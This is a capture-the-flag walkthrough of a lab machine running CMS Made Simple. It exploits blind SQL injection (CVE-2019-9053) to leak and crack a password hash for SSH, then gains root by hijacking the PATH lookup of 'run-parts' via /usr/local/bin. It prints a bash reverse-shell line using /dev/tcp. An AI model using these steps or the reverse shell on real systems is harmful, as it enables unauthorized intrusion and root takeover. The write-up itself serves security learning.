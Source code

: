 ### Walkthrough 

#### tldr;
web server is using CMS made simple which is vulnerable to blind sqli (CVE-2019-9053), leading to credential leak with MD5 hash which can be used for ssh after cracking it

for the privilege escalation, it is coming from path hijacking as the user is added to the system `staff` group that has write access to `/usr/local/bin` 


IP: 10.10.10.138
#### Reconnaissance 

Starting with a nmap scan on the provided IP  
```bash
nmap -sC -sV -A 10.10.10.138 -p- -oA nmap/nmap_scan
```

The nmap scan show that there are 2 ports open:
- 22 - OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
- 80 - Apache httpd 2.4.25 ((Debian))

From the scan, is show that the webpage hosted on port 80 has the path `/writeup` from `robots.txt`. Browsing through the site, on the root path (http://10.10.10.138/), you will be greeted with a message stating that there is a DoS protection that is looking for 40X errors on the webpage. This mean that directory bruteforcing would not be a good idea  - learned this the hard way,running ffuf on it blocks my IP :)

Upon browsing the website once the IP ban is over, there was nothing much within it as it is just a webpage that shows the user ctf writeups and there are no user controllable source.

But by looking at the source code for http://10.10.10.138/writeup, it turns out the website is hosted on a CMS known as CSM Made Simple has the copyright years with it. After some searching, it looks like there are only 5 release in 2019.![](assets/Pasted%20image%2020250809174622.png)

#### CVE-2019-9053
And after some searching, there is one vulnerability SQL injection CVE that aligns with the year - CVE-2019-9053 - along with the exploit script - [ref](https://www.exploit-db.com/exploits/46635). 

After setting up the script and running it, it was able to get the username, email, MD5 password hash and its hash value, which can be cracked via `hashcat`![](assets/Pasted%20image%2020250809174632.png)
#### User Flag
Using newly obtained credential, we will be able to ssh into the server and obtain the user flag.![](assets/Pasted%20image%2020250809174653.png)    
#### Privilege Escalation 
To get to root in this box took awhile, as after enumerating for quite sometime such as checking for sudo access, cronjobs, misconfigured SUID and so on... 

But after awhile, I realized that I completely forgotten to check the user group that this user is assigned to. Upon checking it, one group that stands out the most if the `staff` group as it does not look default system group.![](assets/Pasted%20image%2020250809174704.png)![](assets/Pasted%20image%2020250809174710.png)

Which turns out it actually is, as the group ID is less then 1000 which by convention it should be a system group. So I decided to dig further, and found the this group is a default group for Debian. From the Debian wiki, it states that the staff group allow users to modify `/usr/local` including `/usr/local/bin` without root privilege.![](assets/Pasted%20image%2020250809174720.png)  
![](assets/Pasted%20image%2020250809174725.png)    

With this new information, I start trying a few things such as creating a simple bash script that echos out `whoami` in `/usr/local/bin`, but ultimately the user the output was always `jkr` instead of `root`, which makes sense since `jkr` user is the one that is executing the script. 

So back to more researching, I stumble upon an attack know as Path Hijacking (might have taken a peak in the walkthrough). 
##### Path Hijacking
So path hijacking is just as its name suggested, we will be hijacking a legitimate binary by creating a malicious binary with the same name, whereby the system will be invoking the malicious binary instead of the legitimate binary. This can be done by taking advantage of the order of execution for the `PATH` env variable  

So, from my understanding, path hijacking requires three condition to be met: 
1. A privilege user to run the malicious binary 
2. The binary execution need to be from a relative path as oppose to absolute path 
3. The vulnerable `PATH` needs to come first in the $PATH env variable (which in this case its `/usr/local/bin`)
	1. `/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games`
	2. ![](assets/Pasted%20image%2020250809174732.png)

In our case, from the 3 mentioned conditions only one have been met so far, which is `/usr/local/bin` come first within the `PATH` env. This means that we will be overwrite any legitimate binary  with our own malicious binary 

Here's a simple POC for that, overwritten `md5sum` and replaced it with a bash script. ![](assets/Pasted%20image%2020250809174744.png)   

One thing that I encounter in this, to speed/optimized binary execution, bash actually creates hash table to for the binaries. What this means is that eventhough `which` is pointing to the malicious binary, the hash table will still take precedence. To check this the `type` command can be use and the `hash -r` command can be use to clear the hash table. 

Back to the main goal, we are still missing 2 conditions, a privilege user running the binary and a binary that is getting executed, to locate we can use a tool know as `pspy` to snoop the processes that is being executed without having root access. 

While the `pspy` is running, a binary called `run-parts` is getting executed by `root` (as indicated by the uid of 0) with relative path whenever a new ssh session is established.![](assets/Pasted%20image%2020250809174807.png)
##### Root Flag
With this all three conditions are met, we just need to create a malicious `run-parts` binary under `/usr/local/bin` and start a new ssh session to invoke the binary. (In this case the `hash -r` is not needed, which from my assumption is that since this is a new session, the hash table is not populated yet)

Reverse shell script 
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/<replace with ip>/4444 0>&1
```

Reverse shell listener ![](assets/Pasted%20image%2020250809174817.png)  
### References
- https://wiki.debian.org/SystemGroups
- https://github.com/DominicBreuker/pspy
- https://nvd.nist.gov/vuln/detail/CVE-2019-9053
- https://www.exploit-db.com/exploits/46635
- https://github.com/vulhub/vulhub/blob/master/cmsms/CVE-2019-9053/README.md
- https://github.com/ELIZEUOPAIN/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit
